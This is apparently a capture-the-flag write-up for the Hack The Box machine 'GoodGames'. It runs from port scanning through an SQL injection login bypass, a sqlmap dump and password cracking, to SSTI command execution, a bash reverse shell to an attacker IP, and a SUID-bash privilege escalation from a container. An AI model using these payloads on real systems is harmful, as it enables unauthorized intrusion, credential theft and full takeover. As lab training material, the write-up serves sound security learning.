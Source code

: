 # [GoodGames](https://app.hackthebox.com/machines/GoodGames)

```bash
nmap -p- --min-rate 10000 10.10.11.130 -Pn    
```

![Alt text](img/image.png)

I just see port (80) is open, let's do greater nmap scan for this port.

```bash
nmap -A -sC -sV -p80 10.10.11.130
```

![Alt text](img/image-1.png)


From this nmap scan, I just add this ip address into '/etc/hosts' file as **'goodgames.htb'** domain.

![Alt text](img/image-2.png)



I just enumerate this web application via `SQL Injection` to bypass authentication by adding `' or 1=1-- -;`

![Alt text](img/image-3.png)


I also enumerate that there's UNION based SQL Injection attack.

![Alt text](img/image-4.png)


Let's use `sqlmap` to automate this process and dump all the stuff from database.

```bash
sqlmap -r login.req --level 5 --risk 3 --technique "U"
```


I enumerate all database via adding `--dbs` to get db 'main',`--tables` to get table "user", `--dump` to get all data.

```bash
sqlmap -r login.req --level 5 --risk 3 --technique "U" -D "main" -T "user" --dump
```

![Alt text](img/image-5.png)


I crack this password via [Crackstation](https://crackstation.net).

![Alt text](img/image-6.png)


There's another website (internal) which can be seen beyond of 'top dashboard'. 

![Alt text](img/image-7.png)


That's page which redirects into 'internal-administration.goodgames.htb' and I add this domain into '/etc/hosts' file.

I login here via the same credentials.

admin: superadministrator

![Alt text](img/image-8.png)



I can do modifications on this page for 'admin' user.

![Alt text](img/image-9.png)


As I know that's Python language, I will try SSTI payloads for Python template structured languages.
So, If I add SSTI(Server-Side Template Injection) payload `{{ 7 * 7 }}`, it will be `eval`uated.

![Alt text](img/image-10.png)


Let's add our system commands into here.
```bash
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

![Alt text](img/image-11.png)


Now, it's time for reverse shell payload.
```bash
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.16.7/1337 0>&1"').read() }}   
```

![Alt text](img/image-12.png)


Hola, I got reverse shell from port (1337).

![Alt text](img/image-13.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-14.png)


user.txt

![Alt text](img/image-15.png)



**'INTERESTING PORT SCAN'** I will do port scanning as because this machine's ip address is '172.19.0.2', I see that real machine is '172.19.0.1', that's why I can try direct SSH into here


I used the same password (superadministrator)

![Alt text](img/image-16.png)


From `root` user of container I see that while this user create a file , automatically owner of this file become real `root` user.

If I create `bash` file, it will be `root` user as owner, If I add SUID binary, I can get root shell.


1.First, we need to run below command via `augustus` user.
```bash
cp /bin/bash .
```

![Alt text](img/image-17.png)

2.Second, we need to back into root user for container and run below commands.
```bash
chown root:root bash 
chmod 4777 bash  #add suid binary, means file creator can run this via sudo privileges
```

![Alt text](img/image-18.png)

3.Come back to shell for `augustus` user and run `bash -p` to be root user of machine.

![Alt text](img/image-19.png)


root.txt

![Alt text](img/image-20.png)